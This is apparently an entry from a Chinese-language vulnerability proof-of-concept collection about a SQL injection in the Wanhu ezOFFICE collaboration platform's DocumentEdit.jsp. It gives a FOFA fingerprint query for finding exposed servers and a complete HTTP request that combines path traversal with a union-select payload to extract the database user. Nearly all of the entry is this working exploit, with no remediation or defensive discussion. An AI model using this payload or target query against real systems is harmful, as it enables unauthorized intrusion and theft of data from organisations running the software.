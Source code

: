 ## 万户 ezOFFICE DocumentEdit.jsp SQL注入

DocumentEdit.jsp接口处存在sql注入漏洞，攻击者可获取数据库中敏感信息

## fofa
```
app="ezOFFICE协同管理平台"
```

## poc
```
GET /defaultroot/iWebOfficeSign/OfficeServer.jsp/../../public/iSignatureHTML.jsp/DocumentEdit.jsp?DocumentID=1'%20union%20select%20null,null,(select%20user%20from%20dual),null,null,null,null,null,null,null%20from%20dual-- HTTP/1.1
Host: your-ip
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
Accept-Encoding: gzip, deflate
Connection: close
```
![image](../../images/899ccb8d-22a3-4c5b-a50b-9d8a64ac73aa.png)
